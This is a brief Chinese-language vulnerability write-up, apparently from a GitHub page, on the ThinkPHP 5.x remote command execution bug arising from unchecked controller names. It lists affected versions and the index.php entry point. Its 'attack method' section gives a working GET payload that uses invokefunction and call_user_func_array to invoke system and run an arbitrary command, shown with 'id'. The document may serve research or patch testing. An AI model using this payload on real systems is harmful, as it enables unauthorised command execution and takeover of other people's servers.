


## 简介

该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 影响版本

ThinkPHP 5.0.x < 5.0.23

ThinkPHP 5.1.x < 5.1.31

5.0.23和5.1.31版本之前的版本不一定被影响，而且某些版本可能需要开启debug才可以

## 影响地址

http://ip:port/index.php

## 攻击方法



在访问该网页的GET请求头上添加

```http

?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
//vars[1][]为要执行的恶意命令
```

